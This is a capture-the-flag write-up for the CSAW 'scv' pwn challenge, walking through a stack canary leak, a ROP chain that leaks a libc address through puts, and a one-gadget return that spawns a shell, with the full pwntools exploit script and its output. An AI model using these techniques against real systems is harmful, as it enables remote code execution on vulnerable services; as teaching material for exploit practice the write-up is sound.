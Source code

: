 ### Solved by superkojiman

This one was worth 100 points. The binary comes with NX and a stack canary for protection. 

```
|root|csaw|~/work/pwn100-scv|
# checksec scv
[*] '/root/work/pwn100-scv/scv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The binary displays a menu of three items. Option 1 allows us to enter some data, option 2 prints out the data we've entered, and option 3 exits the program. 

We can clearly overflow the buffer and overwrite the saved return pointer:

```
|root|csaw|~/work/pwn100-scv|
# ./scv
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>1
-------------------------
[*]SCV IS ALWAYS HUNGRY.....
-------------------------
[*]GIVE HIM SOME FOOD.......
-------------------------
>>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>3
[*]BYE ~ TIME TO MINE MIENRALS...
*** stack smashing detected ***: ./scv terminated
Aborted (core dumped)
```

Unfortunately we're also overwriting the stack canary which causes the binary to abort. So we'll need to leak the stack canary. Doing that is actually pretty easy. The stack canary is 168 bytes from the start of the buffer. So if we write exactly 168 bytes and then print the contents of the buffer, it will also print out the stack canary since the string is not null terminated. 

```
# Leak stack canary
r.sendline("1")
r.recvuntil(">>")

buf = ""
buf += "A"*168

r.sendline(buf)
r.recvuntil(">>")

r.sendline("2")
canary = r.recvuntil(">>").split("-------------------------")[3]

canary = "\x00" + canary[170:177]
print "Leaked canary:      ",  hex(u64(canary))
```

The stack canary starts with a null byte. Since we're overwriting it, we need to make sure we add it back in so we get the correct value of the stack canary. Here's how it looks:

```
|root|csaw|~/work/pwn100-scv|
# ./sploit.py
[+] Opening connection to pwn.chal.csaw.io on port 3764: Done
Leaked canary:       0x9895b2e495b4600
```

Now that we have the stack canary, we can overwrite the saved return pointer without triggering a stack smashing protection error. We're provided with a copy of the target's libc. Here's the plan of attacK:

* leak a libc address; eg: puts() (aka _IO_puts)
* find the offset of _IO_puts in the provided libc: ```readelf -s libc-2.23.so | grep puts```
* calculate libc's base address by subtracting the offset of _IO_puts from the leaked address of _IO_puts
* locate the offset of a one-gadget RCE in the provided libc
* add libc's base address to the one-gadget RCE offset and return to that, which hopefully gives us a shell

To leak puts() address, we need to create a short ROP chain that uses put() to print out its own address in the GOT:

```
pop_rdi  = p64(0x00400ea3)
puts_got = p64(0x602018)
puts_plt = p64(0x4008d0)

buf = ""
buf += "A"*168
buf += canary
buf += "B"*8
buf += pop_rdi
buf += puts_got
buf += puts_plt

buf += p64(0x400a96)

r.sendline(buf)
r.recvuntil(">>")

r.sendline("3")
d = r.recv()
puts_libc = d[34:40] + "\x00\x00"
print "Leaked _IO_puts():  ", hex(u64(puts_libc))

libc_base = u64(puts_libc) - puts_off
print "Libc base:          ", hex(libc_base)
```

Here it is in action:

```
|root|csaw|~/work/pwn100-scv|
# ./sploit.py
[+] Opening connection to pwn.chal.csaw.io on port 3764: Done
Leaked canary:       0x19723498e7790d00
Triggering overflow
Len puts_libc 8
Leaked _IO_puts():   0x7ff279a7e690
Libc base:           0x7ff279a0f000
```

Finding the offset to a working one-gadget RCE is easy using the [one_gadget](https://github.com/david942j/one_gadget) tool. In this case it turns out to be ```0xf0274``` Adding this offset to libc's base address gives us its location in memory which we can return to. Here's the final exploit:

```
#!/usr/bin/env python

from pwn import *
import sys

# RIP at offset 184

pop_rdi  = p64(0x00400ea3)
puts_got = p64(0x602018)
puts_plt = p64(0x4008d0)

puts_off = 0x6f690

r = remote("pwn.chal.csaw.io", 3764)

r.recvuntil(">>")

# Leak stack canary
r.sendline("1")
r.recvuntil(">>")

buf = ""
buf += "A"*168

r.sendline(buf)
r.recvuntil(">>")

r.sendline("2")
canary = r.recvuntil(">>").split("-------------------------")[3]

canary = "\x00" + canary[170:177]
print "Leaked canary:      ",  hex(u64(canary))

# Send payload with canary. Leak a libc address
r.sendline("1")
r.recvuntil(">>")

buf = ""
buf += "A"*168
buf += canary
buf += "B"*8
buf += pop_rdi
buf += puts_got
buf += puts_plt

buf += p64(0x400a96)

r.sendline(buf)
r.recvuntil(">>")

print "Triggering overflow"
r.sendline("3")
d = r.recvuntil(">>")
puts_libc = d[34:40] + "\x00\x00"
print "Len puts_libc", len(puts_libc)
print "Leaked _IO_puts():  ", hex(u64(puts_libc))

libc_base = u64(puts_libc) - puts_off
print "Libc base:          ", hex(libc_base)

# overwrite saved return pointer with address of one-gadget-rce
r.sendline("1")
r.recvuntil(">>")

rce = libc_base + 0xf0274
print "one-gadget RCE at", hex(rce)

buf = ""
buf += "A"*168
buf += canary
buf += "B"*8
buf += p64(rce)

r.sendline(buf)

# Trigger the overflow again and get shell
r.sendline("3")
r.interactive()
```

And now we can get the flag: 

```
|root|csaw|~/work/pwn100-scv|
# ./sploit.py
[+] Opening connection to pwn.chal.csaw.io on port 3764: Done
Leaked canary:       0xda47693da3d80e00
Triggering overflow
Len puts_libc 8
Leaked _IO_puts():   0x7fa18a200690
Libc base:           0x7fa18a191000
one-gadget RCE at 0x7fa18a281274
[*] Switching to interactive mode
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>[*]BYE ~ TIME TO MINE MIENRALS...
$ ls
flag
scv
$ cat flag
flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}
```
